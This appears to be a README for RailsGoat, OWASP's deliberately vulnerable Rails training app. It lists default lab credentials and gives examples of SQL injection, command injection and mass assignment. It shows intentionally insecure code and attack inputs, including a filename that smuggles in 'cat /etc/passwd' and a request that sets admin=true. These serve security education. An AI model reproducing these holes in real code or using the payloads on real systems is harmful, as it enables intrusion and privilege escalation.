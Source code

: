 # Rails Goat

## Overview
RailsGoat is a vulnerable Ruby on Rails application maintained by OWASP, designed to educate developers and security professionals about Rails-specific vulnerabilities.

## Quick Start

**Access URL**: http://localhost:3002

**Default Credentials**:
- Admin: `admin@railsgoat.com` / `admin1234`
- User: `user@railsgoat.com` / `user1234`
- Jim: `jim@railsgoat.com` / `jim1234`

## Application Features

- User registration and authentication
- Retirement planning calculator
- Work schedule management
- Performance reviews
- Benefits enrollment
- Messaging system
- Admin dashboard

## Vulnerabilities

### 1. SQL Injection
```ruby
# Vulnerable code
User.where("email = '#{params[:email]}'")

# Attack
http://localhost:3002/users?email=' OR '1'='1
http://localhost:3002/users?email=' UNION SELECT * FROM users--
```

### 2. Command Injection
```ruby
# Vulnerable file upload
def upload
  `file #{params[:file][:tempfile].path}`
end

# Attack - filename with command
"; cat /etc/passwd #.txt"
```

### 3. Mass Assignment
```ruby
# Vulnerable controller
def update
  @user.update_attributes(params[:user])
end

# Attack - escalate privileges
PUT /users/1
user[admin]=true&user[verified]=true
```
